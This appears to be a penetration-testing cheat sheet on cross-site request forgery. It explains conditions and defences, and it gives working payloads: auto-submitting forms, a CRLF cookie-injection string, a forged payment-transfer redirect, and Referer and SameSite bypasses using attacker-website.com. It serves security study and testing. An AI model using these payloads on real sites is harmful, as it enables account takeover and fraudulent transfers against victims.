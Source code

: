 # CSRF

<details>

<summary>Impact</summary>

* The attacker causes the victim user to carry out an action unintentionally
  * Change password, email, make a funds transfer

<!---->

* If the victim is a privileged user the attacker might be able to take full control of all the application's

</details>

## Conditions

* A relevant action
  * Example: change password
* Cookie-based session handling
* No unpredictable request parameters:
  * If you need to know the value of the existing password -> no vulnerable

## **Exploit**

1. with POST

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2. with GET

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## Defences

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict`: Means that the browser sends the cookie only for same-site requests

<!---->

*   `Lax`: Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
* `None`: Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## CSRF tokens bypass

* **Switch from POST to the GET method to bypass**
* **Remove the entire parameter containing the token**
* Sometimes you don't need a valid token (the app doesn't keep valid server-side tokens) .
  * Simply **invent a token in the required format**
* Some apps don't validate if the token belongs to the same session as the requesting user.
  * Log in to the application with your account, **obtain a valid token**, and then **feed that token to the victim user** in their CSRF attack
* Some applications do tie the CSRF token to a cookie, but not to the session cookie. So there are two token: one in a cookie and one in hidden input. (this can also have the same value)
  * Can you set a cookie? Ex. Header injection with `CRLF`.&#x20;
  * ```
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  * Log in to the application with your account -> obtain a valid token and associated cookie.
  * Remove the auto-submit `<script>` block, and add the following code to inject the cookie.
  * ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```



## SameSite cookies bypass

* Bypassing SameSite Lax restrictions using GET requests
  * ```html
    <script>
        document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
    </script>
    ```
  * Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. Example some framework supports `_method` parameter. Other frameworks support a variety of similar parameters.
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```
* Bypassing SameSite Strict bypass via client-side redirect
  * Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.
  * ```javascript
    redirectOnConfirmation = () => {
        setTimeout(() => {
            const url = new URL(window.location);
            const postId = url.searchParams.get("postId");
            window.location = '/post/' + postId;
        }, 3000);
    }
    ```
  * ```html
    <script>
        document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
    </script>
    ```
  * Note: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.

## Referer-based validation bypass

* Validation of Referer depends on header being present
  * Some apps validate the Referer header if present, but skip if omitted
  * `<meta name="referrer" content="never">`
* Validation of Referer can be circumvented
  * `http://vulnerable-website.com.attacker-website.com/csrf-attack`
  * `http://attacker-website.com/csrf-attack?vulnerable-website.com`
  * `http://attacker-website.com/vulnerable-website.com`
  * Note 1: add Referrer-Policy: unsafe-url
    * One way to set it in html: `<meta name="referrer" content="unsafe-url" />`
  * Note 2: Firefox 87 new default Referrer Policy ‘strict-origin-when-cross-origin’ trimming user sensitive information like path and query string to protect privacy. (https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)
  * Note 3: Instead of use http://attacker-website.com/vulnerable-website.com that looks strange you can use http://attacker-website.com/ and add `<script>history.pushState('', '', '/attacker-website.com')</script>`

More info about setting Referer-Policy: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
